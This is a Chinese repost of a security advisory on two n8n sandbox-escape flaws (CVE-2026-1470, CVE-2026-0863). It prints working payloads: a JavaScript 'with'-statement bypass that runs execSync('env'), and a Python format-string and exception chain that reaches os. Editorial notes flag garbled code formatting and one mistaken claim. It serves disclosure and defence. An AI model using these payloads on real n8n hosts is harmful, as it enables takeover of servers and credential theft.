





# 通过沙箱逃逸在 n8n 上实现远程代码执行 - CVE-2026-1470 和 CVE-2026-0863

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 多个修复分支不能用任何更早版本简单概括
- 所有Python代码丢失换行缩进，JS注释吞掉内容且newRegExp/thrownew粘连
- new_getattr的f-string花括号表达式损坏需回原文恢复，不能猜补
- os.uname不是执行uname外部命令
- 内部与外部运行模式风险区分应保留
- Python3.10条件需结构字段
- JFrog原文链接优质应保留，重复宣传和HTML清理

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 骨哥说事
                    骨哥说事  骨哥说事   2026-01-30 16:00  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>

#   
  
#   
  
****# 防走失：https://gugesay.com/archives/5238  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
  
  
  
  
近日，JFrog 安全研究团队发现并披露了 n8n 沙箱机制中的两个漏洞：CVE-2026-1470，评分为 **9.9 分（严重）**  
，影响表达式求值引擎；以及 CVE-2026-0863，评分为 **8.5 分（高危）**  
，影响代码节点的 Python 执行(“Internal” 模式)。  
  
n8n 是一个流行的 AI 工作流自动化平台，它将 AI 能力与业务流程自动化相结合。  
  
在之前的漏洞披露之后，n8n 强化了其 JavaScript 沙箱，并为 Python 代码节点引入了新的“任务执行器(task-runner)”选项以及额外的沙箱加固措施。**然而，我们的研究团队仍然能够绕过这些保护措施**  
，这表明即使是健壮的沙箱机制也可能被绕过。  
  
在这两种情况下，漏洞利用都通过滥用 AST 净化逻辑中的缺陷，最终导致了远程代码执行 (RCE)。能够创建 n8n 工作流的攻击者可以轻易利用这些漏洞，在运行 n8n 服务的主机上实现完全的远程代码执行。这些漏洞在 n8n 的云平台上曾经存在影响，并且在所有运行未修补版本的自托管部署中仍然可能被利用。  
> **注意**  
:  
> CVE-2026-1470 – n8n 用户应升级到版本 1.123.17、2.4.5 或 2.5.1。任何更早的版本都易受此漏洞影响。CVE-2026-0863 – n8n 用户应升级到版本 1.123.14、2.3.5 或 2.4.2。任何更早的版本都易受此漏洞影响。  
  
## 背景介绍：n8n 的表达式求值引擎  
  
  
  
正如在官方 n8n 文档中所描述的，表达式是：  
  
  
  
那么，它是如何工作的呢？为什么攻击者不能直接在 n8n 主机上执行任意命令？  
  
当表达式引擎遇到 {{ ... }}  
 块时，它会处理其中包含的内容：将其传递给一个 JavaScript Function  
 构造函数，然后执行提供的代码。  
  
由于这种执行模型本质上是危险的，n8n 依赖于一个**基于抽象语法树 (AST)**  
 的沙箱来验证 JavaScript 输入的安全性，确保其不会触发意外的行为，例如执行任意的操作系统命令。  
  
这个沙箱机制的核心是 n8n 的 Tournament 库。该库将输入解析为 AST，并钩住潜在危险的节点以在执行前将其“中和 (neutralize)”。  
## JavaScript 沙箱分析 (CVE-2026-1470)  
  
沙箱净化过程首先用一个修改过的全局对象来填充执行环境：  
```
// packages/workflow/src/expression.tsdata.process =typeof process !== "undefined"    ? {        arch: process.arch,        env:          process.env.N8N_BLOCK_ENV_ACCESS_IN_NODE !== "false"            ? {}            : process.env,        platform: process.platform,        pid: process.pid,        ppid: process.ppid,        release: process.release,        version: process.pid,        versions: process.versions,      }    : {};Expression.initializeGlobalContext(data); //<== 此方法将大多数危险的全局对象、setter、getter 等定义为 undefined 或空对象, 如这里所示
```  
  
然后是一个基于正则表达式的静态检查，用于捕获 .constructor  
 的出现：  
```
// packages/workflow/src/expression.tsconst constructorValidation = newRegExp(/\.\s*constructor/gm);if (parameterValue.match(constructorValidation)) {thrownew ExpressionError(    "Expression contains invalid constructor function call",    {      causeDetailed:        "Constructor override attempt is not allowed due to security concerns",      runIndex,      itemIndex,    },  );}
```  
  
最后，表达式通过 Tournament 的钩子验证器。如果所有检查都未报错，才会执行表达式。  
```
// packages/workflow/src/expression-evaluator-proxy.tsconst errorHandler: ErrorHandler = () => {};const tournamentEvaluator = new Tournament(errorHandler, undefined, undefined, {  before: [ThisSanitizer], // 此处应用三个钩子  after: [PrototypeSanitizer, DollarSignValidator],});const evaluator: Evaluator =  tournamentEvaluator.execute.bind(tournamentEvaluator);exportconst setErrorHandler = (handler: ErrorHandler) => {  tournamentEvaluator.errorHandler = handler;};exportconst evaluateExpression: Evaluator = (expr, data) => {return evaluator(expr, data);};
```  
  
在 Tournament 评估过程中，应用了三个钩子：ThisSanitizer  
、PrototypeSanitizer  
 和 DollarSignValidator  
。  
  
ThisSanitizer  
，正如其名，通过重写函数调用来阻止通过 this  
 的逃逸，将执行绑定到一个已“消毒”的全局对象上：  
```
// 例如：(function() { return this.process; })() => 转换为 => .call({ process: {} }, ...args)
```  
  
这防止了通过 this  
 访问到真实的全局上下文。  
  
PrototypeSanitizer  
 通过拒绝访问 __proto__  
、prototype  
、constructor  
、getPrototypeOf  
 等常用于沙箱逃逸的属性，来阻止原型链操纵。  
  
最后，DollarSignValidator  
 限制了对 $  
 标识符的使用，该标识符被保留为工作流数据访问器。  
  
总而言之，**有多个验证层来缓解已知的 JavaScript 沙箱逃逸向量**  
，包括原型污染、全局上下文访问、反射 API 和构造器滥用。然而，一个特别有问题的 JavaScript 特性被忽视了：**with 语句**  
。这可能是因为它已被弃用且被强烈不鼓励使用，文档中写道：  
  
  
  
“可能是混淆性错误的来源  
”？ 这听起来正是我们寻找的。并且很巧，with  
 语句仍受到 Tournament AST 解析器的支持。  
  
with  
 语句有效地为一个表达式块定义了作用域。当前实现阻止了对 constructor  
 的访问，但仅当它作为 MemberExpression  
 节点（如 obj.constructor  
 或 obj[“constructor”]  
）出现时。然而，当 constructor  
 作为一个独立的标识符使用时，无论是 AST 验证还是静态的正则检查都不会阻止它：  
```
var constructor = ‘gotcha’;// {{ (function(){ var constructor = ‘gotcha’; })() }} <= 不会被阻止
```  
  
这允许我们通过在 with  
 语句中引入一个“诱饵” constructor  
 标识符来欺骗 AST 检查，并将其作用域设定为 function (){}  
，这实际上解析为 Function  
 对象：  
```
{{  (function () {    var constructor = "gotcha";    with (function () {}) {      return constructor("return 1337")();    }  })();}}//控制台输出: 1337
```  
  
此表达式没有被阻止，因为在 AST 看来，constructor  
 被视为一个简单的标识符。我们可以通过移除诱饵来验证这个行为：  
```
{{  (function () {    var not_a_constructor = "gotcha";    with (function () {}) {      return constructor("return 1337")();    }  })();}}//控制台: Cannot access "constructor" due to security concerns
```  
  
换句话说，**AST 认为 constructor 是一个无害的标识符，而实际上它解析为 Function.prototype.constructor**  
（其中 Function.prototype.constructor === Function  
）。从这一点出发，实现任意代码执行就变得直接了：  
```
{{  (function () {    var constructor = "gotcha";    with (function () {}) {      return constructor(        "return process.mainModule.require('child_process').execSync('env').toString().trim()",      )();    }  })();}}//控制台: 输出主节点的环境变量
```  
  
此漏洞被评为严重级别，因为任意代码执行发生在 n8n 的主节点中，允许经过身份验证的攻击者完全控制一个 n8n 实例。  
## Python代码节点分析 (CVE-2026-0863)  
  
Python 代码节点允许 n8n 用户执行任意 Python 代码进行数据处理，但为了在“Internal”（内部）配置下保护 n8n 实例不被完全接管，此代码同样需要经过 AST 沙箱处理。  
  
  
  
图片: Python 代码节点配置  
  
  
  
图片: 推荐外部执行模式  
  
此节点可以在两种不同的配置下执行。当 n8n 实例在推荐的“External”（外部）配置下运行时，Python 执行发生在一个独立的 Docker 侧车容器中，而不是主节点内。在此设置下，攻击者将需要一个额外的漏洞来逃逸侧车容器并影响底层主机。  
  
然而，如果 n8n 实例在“Internal”（内部）配置下运行，Python 代码作为子进程在主节点本身上执行，因此成功的漏洞利用可以危及整个 n8n 实例。  
  
在这两种配置下，Python 代码都在由 SecurityConfig  
 对象定义的严格 AST 沙箱下执行。在其默认配置中，沙箱禁止导入 stdlib  
 和所有其他外部模块，并拒绝访问广泛的内部函数，如下所示：  
```
# packages/@n8n/task-runner-python/src/constants.pyBUILTINS_DENY_DEFAULT = "eval,exec,compile,open,input,breakpoint,getattr,object,type,vars,setattr,delattr,hasattr,dir,memoryview,__build_class__,globals,locals,license,help,credits,copyright"
```  
  
用户提供的代码被转换为 AST，每个节点都会根据 SecurityConfig  
 策略以及针对 Import  
（导入）、Call  
（调用）和 Attribute  
（属性）等危险节点类型的自定义检查进行评估。完整实现在此处。  
  
乍看之下，默认的 SecurityConfig  
 似乎极其严格，留给恶意操作的空间很小。此外，一个修改过的全局对象被注入以替代标准对象：  
```
# packages/@n8n/task-runner-python/src/task_executor.pyglobals = {    "__builtins__": TaskExecutor._filter_builtins(security_config),    "_items": items,    "_query": query,    "print": TaskExecutor._create_custom_print(print_args),}exec(compiled_code, globals)
```  
  
正如基于 AST 的静态沙箱常见的情况，**Python 的格式化功能**  
可以被利用来部分绕过限制并检查内部对象，包括活跃的 SecurityConfig  
 实例：  
```python
def gen_obj():    yield 1g = gen_obj()next(g)trick_ast='gi_frame.f_builtins[__import__].__closure__[1].cell_contents'fmt = '{0.' + trick_ast + '}'config = fmt.format(g)return [{"json": {"config": config}}]#结果: 这将泄漏 “SecurityConfig” 对象: #SecurityConfig(stdlib_allow=set(), external_allow=set(), builtins_deny={'__build_class__', 'hasattr', 'locals', 'input', 'type', 'open', 'credits', 'globals', 'compile', 'delattr', 'getattr', 'dir', 'object', 'license', 'vars', 'exec', 'memoryview', 'setattr', 'eval', 'help', 'breakpoint', 'copyright'}, runner_env_deny=True)
```  
  
虽然这种泄漏是不希望的，但仅凭 format()  
 只能提供对象的字符串表示形式，并不允许直接调用。通常，这个限制可以使用 getattr  
 来绕过，但如上所示，getattr  
 被策略明确禁止。  
  
**基于 AST 的沙箱的一个基本弱点是对语言演变的敏感性**  
。像 Python 这样的高级语言经常引入细微的改变，这可能使沙箱的假设失效。从 Python 3.10 开始，AttributeError 异常获得了 name 和 obj 属性。这意味着当我们遇到一个 AttributeError  
 异常时，**我们可以调用导致异常的属性访问所针对的对象！**  
  
为了更好地演示：  
```python
def new_getattr(obj, attribute, *, Exception):    try:        f'{0.{attribute}.ribbit}'.format(obj)    except Exception as e:        return e.objclass FrogSay():     secret = "ribbit"obj = FrogSay()print(new_getattr(obj, "secret", Exception=Exception))# 这将打印 “ribbit” 到控制台
```  
  
通过将基于格式化字符串的访问与 e.obj  
 结合，我们可以在仅提供字符串表示和获得完全可调用的对象之间架起桥梁，**而不会触发 AST 检查**  
。  
  
利用这个技巧，我们可以构建一个完整的 RCE 链，完全逃逸出沙箱：  
```python
def new_getattr(obj, attribute, *, Exception):    try:        f'{0.{attribute}.ribbit}'.format(obj)    except Exception as e:        return e.objtry:    raise ValueError("pwn")except Exception as e:    tb = new_getattr(e, '__traceback__', Exception=Exception)    frame = new_getattr(tb, 'tb_frame', Exception=Exception)    builtins = new_getattr(frame, 'f_builtins', Exception=Exception)    us = chr(95)    imprt = builtins[us+us+'import'+us+us]    import_globals = new_getattr(imprt, '__globals__', Exception=Exception)    os = import_globals['os']    os.uname()# 这将执行 uname 系统命令
```  
## 总结  
  
这些漏洞凸显了安全地对动态高级语言（如 JavaScript 和 Python）进行沙箱化是多么困难。即使有多个验证层、拒绝列表和基于 AST 的控制，微妙的语言特性和运行时行为仍然可能被利用来绕过安全假设。  
  
在这个案例中，**被弃用或很少使用的语法结构**  
，加上解释器的变化和异常处理行为，足以突破原本严格的沙箱并实现远程代码执行。这强化了一个事实：在执行不受信任的代码时，需要**不断重新评估沙箱设计、密切关注特定运行时版本的变化，并采用强大的深度防御策略**  
。  
  
对于像 n8n 这样经常部署在敏感环境中并处理特权工作流的平台，这些问题凸显了**最小化执行权限**  
以及避免仅仅依赖静态验证的重要性。  
  
原文：https://research.jfrog.com/post/achieving-remote-code-execution-on-n8n-via-sandbox-escape/  
  
- END -  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
